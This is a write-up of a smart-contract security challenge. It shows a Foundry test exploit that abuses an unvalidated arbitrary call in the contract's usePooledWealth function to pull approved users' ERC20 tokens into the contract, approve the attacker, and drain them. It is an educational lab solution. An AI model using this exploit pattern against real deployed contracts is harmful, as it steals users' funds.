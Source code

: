 # CallMeMaybe Solution
Hopefully you figure out that you can use the function `usePooledWealth` to call the `CallMeMaybe` smart contract. The line `_target.call(_calldata);` does not validate the target contract or the calldata. This allows us to call the ERC20 token and approve ourselves. Since we are making the call from the smart contract, we are approving the smart contract to allow us to spend its tokens. To steal 600 tokens, first we need to transfer the tokens from the users who max approved the contract. Then we are free to approve ourselves to spend the tokens.

Here is my version of the exploit:
```
function test_GetThisPassing_2() public {
    address hacker = address(0xBAD);

    uint256 startBalance = token.balanceOf(hacker);

    vm.startPrank(hacker);

    // join the group
    token.approve(address(target), 1 ether);
    target.joinGroup(1 ether);

    // iterate through and transfer the other users' tokens to the contract
    for (uint256 i; i < users.length; i++) {
        address user = users[i];
        bytes memory _calldataTransfer = abi.encodeCall(token.transferFrom, (user, address(target), token.balanceOf(user)));
        target.usePooledWealth(_calldataTransfer, address(token));
    }

    // form our approve calldata
    bytes memory _calldataApprove = abi.encodeCall(token.approve, (hacker, type(uint256).max));
    
    // call the contract approving ourselves to spend the tokens
    target.usePooledWealth(_calldataApprove, address(token));

    // transfer out the tokens
    token.transferFrom(address(target), hacker, 601 ether);

    vm.stopPrank();
    assertGt(token.balanceOf(hacker), 300 ether);
}
```
To summarize here is the steps we needed to complete the hack:

1. Join the group so we have access to call `usePooledWealth`.

2. Loop through each user transferring their tokens to the smart contract via `usePooledWealth`.

3. Use `usePooledWealth` to call `approve` on the ERC20 token.

4. Use `transferFrom` to steal the tokens from the contract.


I would like to point out that we stole address(0x03)'s tokens even though they were no longer a part of the group. This is why it is dangerous to max approve a smart contract!

This exploit is special to me as I found one in my first C4 challenge. Hopefully, you now know to check for similar bugs when you see a smart contract use `call` with user inputted calldata!
